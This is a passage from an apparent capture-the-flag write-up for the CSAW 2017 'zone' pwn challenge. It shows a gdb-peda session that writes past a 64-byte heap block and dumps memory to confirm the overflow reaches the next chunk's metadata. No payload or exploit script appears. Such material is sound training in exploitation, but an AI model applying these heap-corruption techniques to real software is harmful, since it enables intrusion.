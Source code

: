 first launch the program in gdb and give the input:
```
gdb-peda$ r
Starting program: /Hackery/csaw17/pwn/zone/zone 
Environment setup: 0x7fffffffde10
1) Allocate block
2) Delete block
3) Write to last block
4) Print last block
5) Exit
1
64
1) Allocate block
2) Delete block
3) Write to last block
4) Print last block
5) Exit
3
00000000000000000000000000000000000000000000000000000000000000000000000000000000
1) Allocate block
2) Delete block
3) Write to last block
4) Print last block
5) Exit
1) Allocate block
2) Delete block
3) Write to last block
4) Print last block
5) Exit
^C
Program received signal SIGINT, Interrupt.
```

next look at the memory:

```
Stopped reason: SIGINT
0x00007ffff756c260 in __read_nocancel () at ../sysdeps/unix/syscall-template.S:84
84	../sysdeps/unix/syscall-template.S: No such file or directory.
gdb-peda$ find 0000000000000000000000000000000000000000
Searching for '0000000000000000000000000000000000000000' in: None ranges
Found 1 results, display max 1 items:
zero (deleted) : 0x7ffff7ff6010 ('0' <repeats 65 times>)
gdb-peda$ x/x 0x7ffff7ff6010
0x7ffff7ff6010:	0x30
gdb-peda$ x/2g 0x7ffff7ff6000
0x7ffff7ff6000:	0x0000000000000040	0x0000000000000000
gdb-peda$ x/14g 0x7ffff7ff6000
0x7ffff7ff6000:	0x0000000000000040	0x0000000000000000
0x7ffff7ff6010:	0x3030303030303030	0x3030303030303030
0x7ffff7ff6020:	0x3030303030303030	0x3030303030303030
0x7ffff7ff6030:	0x3030303030303030	0x3030303030303030
0x7ffff7ff6040:	0x3030303030303030	0x3030303030303030
0x7ffff7ff6050:	0x0000000000000030	0x00007ffff7ff60a0
0x7ffff7ff6060:	0x0000000000000000	0x0000000000000000
```
